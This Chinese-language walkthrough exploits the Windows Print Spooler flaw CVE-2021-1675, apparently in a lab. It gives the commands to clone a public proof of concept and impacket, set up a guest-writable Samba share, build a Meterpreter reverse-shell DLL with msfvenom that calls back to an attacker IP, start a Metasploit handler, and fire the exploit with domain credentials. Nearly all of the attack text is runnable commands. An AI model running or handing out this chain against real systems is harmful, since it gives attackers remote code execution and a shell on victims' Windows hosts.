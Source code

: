 source 文件夹/bin/activate

进入后我们去github下载poc安装`  
`

`git clone https://github.com/cube0x0/CVE-2021-1675.git git clone
https://github.com/cube0x0/impacket`

首先要下载poc impacket模块然后安装

![](https://gitee.com/fuli009/images/raw/master/public/20210819130352.png)

因为我们使用的是虚拟环境所以我们可以直接安装安装完以后切换到poc处就可以了

source 文件夹/bin/activate python setup.py install python CVE-2021-1675.py -h  

#### 配置smb服务器

`[global] workgroup = workgroup server string = test netbios name = MZ
security = user map to guest = Bad User smb ports = 445 log file =
/var/log/samba/log.%m max log size = 5 min protocol = SMB2`

`[smb] comment = Samba browseable = yes writeable = yes public = yes path =
/tmp/ read only = no guest ok = yes`

#### 按照这个配置以后就可以使用impacket-smbserver 文件名、目录、开启服务器，如图

![](https://gitee.com/fuli009/images/raw/master/public/20210819130403.png)

#### 生成dll和启动msf

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.189.146
LPORT=4444 -f dll -o /tmp/rever.dll msfconsole use exploit/multi/handler set
payload windows/x64/meterpreter/reverse_tcp exploit`  

![](https://gitee.com/fuli009/images/raw/master/public/20210819130404.png)

![](https://gitee.com/fuli009/images/raw/master/public/20210819130405.png)

![](https://gitee.com/fuli009/images/raw/master/public/20210819130406.png)

#### 利用漏洞

`python CVE-2021-1675.py demonba.xxx/yuce:Hello7p@192.168.189.145
'\\192.168.189.146\smb\rever.dll'`  

![](https://gitee.com/fuli009/images/raw/master/public/20210819130407.png)

如果出错则需要安装smb1在windows2019上出错代码，下图

![]()

可以现在2019连接smb服务器出现这种报错

![](https://gitee.com/fuli009/images/raw/master/public/20210819130408.png)
